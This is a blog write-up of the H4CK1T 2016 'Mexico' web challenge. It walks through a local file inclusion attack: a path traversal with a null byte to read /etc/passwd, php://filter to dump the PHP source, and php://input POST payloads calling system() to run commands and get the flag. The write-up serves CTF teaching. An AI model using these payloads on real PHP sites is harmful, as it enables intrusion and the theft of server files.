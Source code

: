 ```yaml
---
title: '[H4CK1T 2016] Pentest – Mexico Writeup'
author: Megabeets
type: post
date: 2016-10-02T20:54:26+00:00
url: /h4ck1t-2016-pentest-mexico/
categories:
  - H4CK1T CTF 2016
  - Writeups
tags:
  - CTF
  - H4CK1T
  - Web
  - Writeups

---
```

### **Description:**

> **Task: Remote pentest &#8211; Mexico &#8211; 150 &#8211; Web**
> 
> <span style="font-weight: 400;">Our foreign partners have some problems with qualified staff in the field of information technology, we decided to help them and to conduct remote testing of their new website. Your task is to find a hole in the system and grab some information to confirm the hack .Good luck !</span>  
> [<span style="font-weight: 400;">http://91.231.84.36:9150/</span>][1]

YAY! Web challenge! If you are following my blog <span style="font-size: 10pt;"><em>(If not, the subscribe form is on left)</em></span> you already know how much I love web challenges, It&#8217;s either easy points or great puzzle.

Let&#8217;s open the website and see what we have:

<img src="../uploads/h4ck1t_mexico1.png" /> 

WOW! JUSTICE LEAGUE! Did I mentioned that I love comic books and especially Batman? Oh, Not yet?

Well, this challenge is going to be awesome. No. It&#8217;s already awesome!

OK, deep breath. Let&#8217;s start. See that menu on the bottom? Let&#8217;s click on some link to see what will happen.

<img src="../uploads/h4ck1t_mexico2.png" /> 

Look at the URL, the &#8220;about&#8221; page is included by the &#8220;index.php&#8221; using php commands &#8216;require&#8217; or &#8216;include&#8217;. When we see something like that in a challenge we can check if the site is vulnerable to LFI attack. In Local File Inclusion attack we can include pages from the local server. Let&#8217;s try to include /etc/passwd to check for the existence of the vulnerability

http://91.231.84.36:9150/index.php?page=../../../../etc/passwd

Didn&#8217;t work. Let&#8217;s try to add null byte at the end

http://91.231.84.36:9150/index.php?page=../../../../etc/passwd%00

<img src="../uploads/h4ck1t_mexico3.png" /> 

It worked! We successfully got the /etc/passwd file. So what now? Let&#8217;s try to read the pure php file to see if the flag is in the php pages.

We can use php://filter to print the content of index.php in base64 format. We need to encode the content because we don&#8217;t want the php engine to compile the php parts of the code.

http://91.231.84.36:9150/index.php?page=php://filter/convert.base64-encode/resource=index

We got encoding page, now let&#8217;s decode it and see if we find a flag . I deleted some content to decrease the size of the code in the post.

<pre class="lang:php decode:true">&lt;?php
    if ($_GET["page"]) {
    $file = $_GET["page"].".php";
    // simulate null byte issue
    $file = preg_replace('/\x00.*/',"",$file);
        include($file);
    } 
    else
    {
        echo '    &lt;div class="container"&gt;
        &lt;div class="row"&gt;
            &lt;div class="col-md-6 col-sm-12"&gt;
                &lt;h1&gt;The Big Picture&lt;/h1&gt;
                &lt;p&gt;Welcome to the Big Picture. This fantastic digital resource combines the best of formal and informal learning. 
If you are already using The Big Picture, you can register for and access exclusive extra material from this platform. 
This is The Big Picture: have you experienced it yet?  &lt;/p&gt; 
            &lt;/div&gt;
        &lt;/div&gt;';
    }
    //flag{h@h@h@_man_n1ce_try} 

?&gt;
&lt;!DOCTYPE html&gt;
&lt;html class="full" lang="en"&gt;
&lt;head&gt;

...
...
...

    &lt;/div&gt;
    &lt;script src="js/jquery.js"&gt;&lt;/script&gt;
    &lt;script src="js/bootstrap.min.js"&gt;&lt;/script&gt;

&lt;/body&gt;

&lt;/html&gt;
</pre>

&nbsp;

Nope. No flag. The &#8220;flag{&#8230;}&#8221; thing isn&#8217;t really the flag because the flag in this CTF should be in h4ck1t{&#8230;} format.  
Also the other pages like &#8216;about&#8217; and &#8216;contact&#8217; is not contain any flag. So we probably need to perform LFI to RCE (Remote Code Execution) attack. We can use the php://input method to send php commands through Post requests. Using Firefox Hackbar plugin we can do it easily.  
Put the URL to be http://91.231.84.36:9150/index.php?page=php://input  And the POST data to be

<pre class="lang:default decode:true">&lt;?  system('ls') ;?&gt;</pre>

<img src="../uploads/h4ck1t_mexico4.png" /> 

Success. We got the RCE and we now know about a new secret file. Let&#8217;s read it using the same way but this time with

<pre class="lang:php decode:true"> &lt;?  system('cat file') ;?&gt;</pre>

And we got the flag 🙂

`<strong>Flag: </strong><em>h4ck1t{g00d_rfi_its_y0ur_fl@g}</em>`

<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img src="../uploads/megabeets_inline_logo.png" />Eat Veggies</a>
  </p>
</div>

 [1]: http://91.231.84.36:9150/